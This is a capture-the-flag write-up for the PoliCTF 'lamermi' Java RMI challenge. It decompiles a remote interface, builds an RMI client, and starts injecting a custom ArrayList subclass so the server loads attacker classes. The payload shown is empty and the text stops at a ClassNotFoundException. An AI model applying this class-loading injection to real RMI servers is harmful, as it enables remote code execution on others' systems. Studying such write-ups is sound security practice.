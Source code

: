 First we take a look at the web server; we are greeted with a directory listing and click through the directories until we arrive at a single file: `lamermi.chall.polictf.it:8000/it/polictf/lamermi/AverageService.class`, which is a compiled Java class. Decompile it with [Bytecode Viewer](http://bytecodeviewer.com/) and we get:
```java
package it.polictf.lamermi;

import java.util.*;
import java.rmi.*;

public interface AverageService extends Remote {

	Double average(List<Integer> param) throws RemoteException;
}
```
Seems like we have found our *remote interface*!

## Intended Functionality

Now we can proceed and write our RMI client. After reading the examples provided in the resources mentioned above I came up with:
```java
package it.polictf.lamermi;

import java.util.*;
import java.rmi.registry.*;

public class MyClient {

	public static void main(String[] args) throws Exception {
		Registry registry = LocateRegistry.getRegistry("lamermi.chall.polictf.it");
		AverageService service = (AverageService) registry.lookup("AverageService");

		List<Integer> list = new ArrayList<Integer>();
		list.add(1);
		list.add(2);
		Double result = service.average(list);

		System.out.println("Result: " + result);
	}
}
```
This connects to the server, retrieves the *remote object* and calls `average` with the list `1, 2`: `Result: 1.5`.

We can use this functionality as intended. But how do we abuse the service to get the flag?

## Code Injection Technique

As I said earlier, if a class is unknown to the server, it will load it at runtime. To inject code, we define our own subclass of `ArrayList<Integer>` and supply that to the call to `average`:
```java
package it.polictf.lamermi;

import java.util.*;

public class Payload0 extends ArrayList<Integer> {
}
```
This payload does exactly nothing, but we can use it to test if we are able to inject arbitrary classes; running our client, we now get the following exception:
```
java.rmi.ServerException: RemoteException occurred in server thread; nested exception is:
        java.rmi.UnmarshalException: error unmarshalling arguments; nested exception is:
        java.lang.ClassNotFoundException: it.polictf.lamermi.Payload0
```